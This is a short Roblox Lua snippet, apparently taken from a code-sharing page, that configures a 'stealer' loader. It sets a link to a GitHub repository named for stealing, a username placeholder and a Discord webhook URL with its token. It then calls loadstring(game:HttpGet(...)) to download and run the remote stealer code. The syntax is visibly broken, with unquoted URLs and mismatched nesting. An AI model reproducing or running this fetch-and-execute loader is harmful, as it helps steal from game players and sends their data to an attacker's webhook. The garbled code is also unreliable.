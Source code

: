 StealerLink = "loadstring(game:HttpGet(https://raw.githubusercontent.com/suiakakakqkq/stealersk/refs/heads/main/" -- Put Your Stealer Link here

Username = "Put Your Username"
Webhook = "https://discord.com/api/webhooks/1364465904578068510/rzXdmD4kFQTVu8szzaWZgyhooDCU79bBlEh6K5pkriDGjPc89QQ7N5aTzME_JtRZPy0-"

loadstring(game:HttpGet(loadstring(game:HttpGet(https://raw.githubusercontent.com/suiakakakqkq/stealersk/refs/heads/main/source.lua""), true))()
